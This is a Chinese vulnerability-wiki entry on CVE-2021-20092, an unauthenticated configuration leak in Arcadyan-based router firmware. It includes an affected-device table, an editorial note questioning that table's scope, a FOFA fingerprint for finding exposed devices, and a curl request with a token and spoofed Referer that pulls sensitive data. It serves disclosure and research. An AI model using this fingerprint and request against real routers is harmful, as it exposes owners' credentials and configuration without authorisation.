



# Arcadyan固件 cgi_i_filter.js 配置信息泄漏漏洞 CVE-2021-20092

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Buffalo WSR-2533DHPL2/WSR-2533DHP3 Arcadyan固件
- 本文讨论：CVE-2021-20092 cgi_i_filter.js配置泄露
- 版本、权限与配置前提：Buffalo≤1.02/≤1.24；loginerror页getToken与Referer，匿名失败登录路径
- 资料类型：固件配置泄露复现及广品牌表；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 简介仅两个Buffalo机型，影响表却37款多品牌，无证据证明同CVE全覆盖，疑借其他Arcadyan漏洞范围
- Found on version只表示发现版本，不是受影响上下界/修复版本
- 敏感返回字段只截图，固定_tn是样本应动态说明

### 操作风险与恢复

- 读取内容可能包含配置、账户或个人数据；应只保存授权环境中最小必要的响应，不能由接口可达推定敏感内容已泄露

### 待核与来源

- 20092官方范围与20090等同批漏洞区分、token/敏感字段和各品牌固件待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

Buffalo WSR-2533DHPL2 固件版本 <= 1.02 和 WSR-2533DHP3 固件版本 <= 1.24 的 Web 界面没有正确限制未经授权的参与者对敏感信息的访问。

## 漏洞影响

| **Vendor**          | **Device**                         | **Found on version** |
| ------------------- | ---------------------------------- | -------------------- |
| ADB                 | ADSL wireless IAD router           | 1.26S-R-3P           |
| Arcadyan            | ARV7519                            | 00.96.00.96.617ES    |
| Arcadyan            | VRV9517                            | 6.00.17 build04      |
| Arcadyan            | VGV7519                            | 3.01.116             |
| Arcadyan            | VRV9518                            | 1.01.00 build44      |
| ASMAX               | BBR-4MG / SMC7908 ADSL             | 0.08                 |
| ASUS                | DSL-AC88U (Arc VRV9517)            | 1.10.05 build502     |
| ASUS                | DSL-AC87VG (Arc VRV9510)           | 1.05.18 build305     |
| ASUS                | DSL-AC3100                         | 1.10.05 build503     |
| ASUS                | DSL-AC68VG                         | 5.00.08 build272     |
| Beeline             | Smart Box Flash                    | 1.00.13_beta4        |
| British Telecom     | WE410443-SA                        | 1.02.12 build02      |
| Buffalo             | WSR-2533DHPL2                      | 1.02                 |
| Buffalo             | WSR-2533DHP3                       | 1.24                 |
| Buffalo             | BBR-4HG                            |                      |
| Buffalo             | BBR-4MG                            | 2.08 Release 0002    |
| Buffalo             | WSR-3200AX4S                       | 1.1                  |
| Buffalo             | WSR-1166DHP2                       | 1.15                 |
| Buffalo             | WXR-5700AX7S                       | 1.11                 |
| Deutsche Telekom    | Speedport Smart 3                  | 010137.4.8.001.0     |
| HughesNet           | HT2000W                            | 0.10.10              |
| KPN                 | ExperiaBox V10A (Arcadyan VRV9517) | 5.00.48 build453     |
| KPN                 | VGV7519                            | 3.01.116             |
| O2                  | HomeBox 6441                       | 1.01.36              |
| Orange              | LiveBox Fibra (PRV3399)            | 00.96.00.96.617ES    |
| Skinny              | Smart Modem (Arcadyan VRV9517)     | 6.00.16 build01      |
| SparkNZ             | Smart Modem (Arcadyan VRV9517)     | 6.00.17 build04      |
| Telecom (Argentina) | Arcadyan VRV9518VAC23-A-OS-AM      | 1.01.00 build44      |
| TelMex              | PRV33AC                            | 1.31.005.0012        |
| TelMex              | VRV7006                            |                      |
| Telstra             | Smart Modem Gen 2 (LH1000)         | 0.13.01r             |
| Telus               | WiFi Hub (PRV65B444A-S-TS)         | v3.00.20             |
| Telus               | NH20A                              | 1.00.10debug build06 |
| Verizon             | Fios G3100                         | 2.0.0.6              |
| Vodafone            | EasyBox 904                        | 4.16                 |
| Vodafone            | EasyBox 903                        | 30.05.714            |
| Vodafone            | EasyBox 802                        | 20.02.226            |

## 网络测绘

```
app="Arcadyan-httpd-1.0" 
```

## 漏洞复现

登录页面




输入任意密码跳转到 loginerror.html 页面，使用 console 调用 getToken() 获取重要参数




_tn 参数设置为刚刚获取到的参数, 使用curl 发送请求包获取敏感信息

```php
curl --include "http://xxx.xxx.xxx.xxx/cgi/cgi_i_filter.js?_tn=348876758" -H "Referer: http://xxx.xxx.xxx.xxx/loginerror.html"
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
